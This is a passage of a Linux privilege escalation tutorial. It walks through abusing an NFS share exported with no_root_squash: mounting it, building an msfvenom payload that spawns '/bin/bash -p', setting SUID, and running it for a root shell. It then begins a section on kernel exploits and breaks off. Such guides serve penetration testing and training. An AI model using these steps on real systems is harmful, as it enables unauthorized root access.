 ### NFS

Files created via NFS inherit the remote user's ID. If the user is root, and root squashing 
is enabled, the ID will instead be set to the "nobody" user.

Example:

Check the NFS share configuration on the target:

```
user@debian:~$ cat /etc/exports
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#

/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)

#/tmp *(rw,sync,insecure,no_subtree_check)
```

/tmp has root squashing disabled

Create a mount point as root on the attacking machine and mount it to the target ip:

```
mkdir /tmp/nfs
mount -o rw,vers=3 <TARGET-IP>:/tmp /tmp/nfs
```

As root on the attacking machine generate a payload with msfvenom and output it to the 
mounted share:

`msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf`

As root make the file executable with SUID permissions:

`chmod +xs /tmp/nfs/shell.elf`

On the target execute the file to gain a root shell:

`/tmp/shell.elf`

### Kernel Exploits

Kernel exploits can leave the system in an unstable state, they are a last resort.

The Linux Exploit Suggester 2 will identify potential kernel exploits on the current system.

Example:

Run the Linux Exploit Suggester 2 on the target:
